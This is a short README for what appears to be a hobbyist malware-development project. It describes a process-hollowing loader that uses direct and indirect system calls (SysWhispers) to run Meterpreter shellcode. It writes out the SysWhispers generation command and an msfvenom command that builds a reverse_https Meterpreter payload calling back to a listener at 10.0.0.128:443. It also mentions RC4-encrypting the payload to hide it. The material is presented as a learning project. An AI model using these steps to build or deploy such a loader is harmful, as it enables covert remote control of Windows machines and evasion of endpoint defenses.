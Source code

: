 # Overview
HUGE thank you to the Syswhipsers project and the MALDEV Academy team for getting my excited about these kinds of projects!

The `Syswhispers` branch is the syswhipers implementation

The `Indirect` branch is my attempt at an indirect systemcall implementation to run meterpreter shellcode via process hollowing

# Misc

Generating the syswhipers code:
```
python3 syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtResumeThread,NtWriteVirtualMemory,NtAllocateVirtualMemory,NtProtectVirtualMemory,NtReadVirtualMemory -o /home/noah/Desktop/MALDEV/modules/ProcessHollowing/syswhispers3_files -v
```
Payload:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.0.0.128 lport=443 exitfunc=thread -f raw > payload.raw
```

Payload into HellShell Rc4 decryptor using `SystemFunction032`

# Analysis

I'd like to do some more indepth analysis at a later point but I also included API calls of the Syswhispers implementation comparing direct & indirect systemcalls.
